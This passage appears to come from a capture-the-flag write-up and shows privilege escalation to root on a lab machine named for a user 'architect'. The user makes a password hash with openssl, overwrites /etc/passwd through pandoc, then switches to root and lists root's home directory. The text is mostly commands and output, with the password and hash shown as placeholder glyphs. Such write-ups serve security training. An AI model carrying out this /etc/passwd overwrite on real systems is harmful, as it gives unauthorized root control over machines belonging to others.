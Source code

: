 ```bash
architect@i...:~$ pandoc --help
pandoc [OPTIONS] [FILES]
  -f FORMAT, -r FORMAT  --from=FORMAT, --read=FORMAT                    
  -t FORMAT, -w FORMAT  --to=FORMAT, --write=FORMAT                     
  -o FILE               --output=FILE                                   
                        --data-dir=DIRECTORY                                  
...                       
```

<br>
<br>

```bash
architect@...:~$ openssl passwd ♠♠♠♠♠♠♠♠♠♠
Warning: truncating password to 8 characters
⌂⌂⌂⌂⌂⌂⌂⌂⌂⌂⌂⌂⌂
```

```bash
architect@...:~$ ls
passwd
...
```

```bash
architect@...:~$ nano passwd
```

```bash
architect@...:~$ cat passwd
root:⌂⌂⌂⌂⌂⌂⌂⌂⌂⌂⌂⌂⌂:0:0:root:/root:/bin/bash
```

<br>
<br>

```bash
architect@...:~$ pandoc passwd -t plain -o /etc/passwd
[WARNING] Could not deduce format from file extension 
  Defaulting to markdown
```

<br>
<h1 align="center">root<a id='7'></a></h1>

```bash
architect@...:~$ su root
Password: 
root@i...:/tmp# 
```

```bash
root@...:/# ls -lah
total 56K
drwx------  6 root root 4.0K Mar 10  2021 .
drwxr-xr-x 23 root root 4.0K Oct 13 21:25 ..
lrwxrwxrwx  1 root root    9 Mar 10  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3.1K Apr  9  2018 .bashrc
drwx------  3 root root 4.0K Jan 30  2021 .cache
drwx------  3 root root 4.0K Oct 13 22:13 .gnupg
drwxr-xr-x  3 root root 4.0K Dec 23  2020 .local
-rw-------  1 root root  11K Jan 30  2021 .mysql_history
-rw-r--r--  1 root root  161 Jan  2  2024 .profile
-rw-r--r--  1 root root   66 Jan 27  2021 .selected_editor
drwx------  2 root root 4.0K Dec 30  2020 .ssh
-rwx------  1 root root 1.8K Jan 27  2021 SSH-TOTP-timeSimulator.py
-rw-r--r--  1 root root  227 Mar  9  2021 .wget-hsts
```

